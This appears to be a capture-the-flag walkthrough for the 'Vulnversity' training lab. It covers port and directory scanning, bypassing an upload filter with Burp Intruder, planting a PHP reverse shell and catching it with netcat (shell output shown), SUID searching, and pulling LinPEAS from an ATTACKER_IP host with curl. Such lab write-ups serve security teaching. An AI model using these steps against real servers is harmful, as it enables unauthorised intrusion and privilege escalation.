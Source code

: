 # Vulnversity
## Reconnaissance

| Nmap Flag | Description
| --- | ---
| `-sV` | Attempt to determine version of running services.
| `-p <x>` or `-p-` | Port scan for port <x> or scan all ports.
| `-Pn` | Disable host discovery and scan for open ports.
| `-A` | Enable OS and version detection, executes in-built scripts for further examination.
| `-sC` | Scan with default Nmap scripts.
| `-v` | Verbose mode.
| `-sU` | UDP port scan.
| `-sS` | TCP SYN port scan.

## Locating Directories Using [Gobuster](https://github.com/OJ/gobuster)
* `Gobuster` is fast directory discovery tool.
* Brute forces URIs (directories and files), DNS subdomains, and virtual host names.
* Install Gobuster on Kali.
```
sudo apt-get install gobuster
```
* Requires wordlist to identify if public directory is available.
* Kali `/usr/share/wordlists` folder contains many wordlists.

| Gobuster Flag | Description
| --- | ---
| `dir` | Use directory/file bruteforcing.
| `-e` | Prints full URLs to the console.
| `-u` | Target URL.
| `-w` | Path to wordlist.
| `-U` and `-P` | Username and password for basic authentication.
| `-p <x>` | Proxy to use for requests.
| `-c <http cookies>` | Specify cookie for simulatin authentication.

## Compromise the Webserver
* Fuzz the upload form using BurpSuite to identify which extensions are not blocked.
### Use the Intruder to automate customised attacks.
#### 1. Make a wordlist of extensions.
```
printf "php\nphp3\nphp4\nphp5\nphtml" >  phpext.txt
```
#### 2. Intercept all browser traffic with BurpSuite.
* Upload file to `http://10.10.240.196:3333/internal/`.
#### 3. Send captured request to Intruder.
* "Sniper" attack type.
* "Payload Positions" > find the filename > prefix and suffix `§` to extension.
* "Payloads" > "Payload settings" > "Load" > phptext.txt.
#### 4. Start the attack.
* PHP reverse shell used as payload.
* Reverse shell is called on target, which forces a connection to listening attacker.
* [Download reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
* Edit `php-reverse-shell.php`.
   * Change IP to attacking machine.
   * Rename file to `php-reverse-shell.phtml`.
```
mv php-reverse-shell.php php-reverse-shell.phtml
```
#### 5. Listen to incoming connections using netcat.
```
nc -lvnp 1234
```
#### 6. Upload shell to webserver.
#### 7. Execute payload.
* Navigate to `http://TARGET_IP:3333/internal/uploads/php-reverse-shell.phtml`
#### 8. Connection established on Netcat session.
```
Connection from 10.10.240.196 33302 received!
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 10:00:44 up  1:34,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
## Privilege Escalation
* Linux SUID (set owner userId upon execution) is file permission.
* Gives temporary permissions to user to run file with permission of file owner.
* `/usr/bin/passwd` binary file to change user password has SUID bit set.
  * User needs to be able to write to shadowers file but only root has access by default.
    * User account has root privileges to make the right changes.
```
4 2 1 4 2 1 4 2 1
r w x r w x r w x
    V     V     V
r w s r w x r w x
-----
User
```
* Search for all SUID files.
```
find / -user root -perm -4000 -exec ls -lbd {} \; 2>/dev/null
```
* Use [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to identify SUID vulnerabilties.
* Clone Github repository.
```
mkdir linpeas
cd linpeas
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
```
* Serve payload through python webserver.
```
python3 -m http.server
```
* Download LinPEAS to target.
* * Ensure that target directory has write permissions (`/tmp`).
```
curl http://ATTACKER_IP:8000/linpeas.sh -a > linpeas.txt
```
